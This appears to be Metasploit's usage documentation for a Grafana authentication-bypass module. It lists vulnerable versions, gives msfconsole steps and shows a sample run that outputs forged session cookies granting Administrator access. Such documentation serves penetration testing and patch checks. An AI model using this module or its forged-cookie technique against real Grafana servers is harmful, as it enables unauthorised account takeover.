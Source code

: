 ## Vulnerable Application

The following list shows the vulnerable versions of Grafana when configured for LDAP or OAuth:

  1.  2.x 
  2.  3.x
  3.  4.x befroe 4.6.4
  4.  5.x before 5.2.3

## Verification Steps

  1. Start msfconsole
  2. Do: ``use auxiliary/admin/http/grafana_auth_bypass``
  3. Do: ``set username <username>`` or ``set cookie <cookie>`` 
  5. Do: ``set version``
  6. Do: ``set rhosts``
  7. Do: ``set rport``
  8. Do: ``run``

## Scenarios

  Example run against Grafana 3.x with username admin:

```
msf5 > use auxiliary/admin/http/grafana_auth_bypass 
msf5 auxiliary(admin/http/grafana_auth_bypass) > show options 

Module options (auxiliary/admin/http/grafana_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BASEURL   /                no        Base URL of grafana instance
   COOKIE                     no        Decrypt captured cookie
   RHOSTS    192.168.202.3    yes       Address of target
   RPORT     3000             yes       Port of target
   THREADS   1                yes       The number of concurrent threads
   USERNAME  Administrator    no        Valid username
   VERSION   5                yes       Grafana version

msf5 auxiliary(admin/http/grafana_auth_bypass) > set RHOSTS 192.168.202.3
RHOSTS => 192.168.202.3
msf5 auxiliary(admin/http/grafana_auth_bypass) > set USERNAME Administrator
USERNAME => Administrator
msf5 auxiliary(admin/http/grafana_auth_bypass) > run

[*] Running for 192.168.202.3...
[+] Encrypted remember cookie: 1bedc565c40b58307afa4672efd72d3c37f02684c2deb0ce0b55594cbce337fc90625356dc232e998f
[+] Set following cookies to get access to the grafana instance.
[+] grafana_user=Administrator;
[+] grafana_remember=a232b98b9365d3d8f7ce253adfb9779f1114131a68cc8cbb4a53ee6f5cb71acfbe25773e95db051021;
[+] grafana_sess=4ecdc0c13ebca229;
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
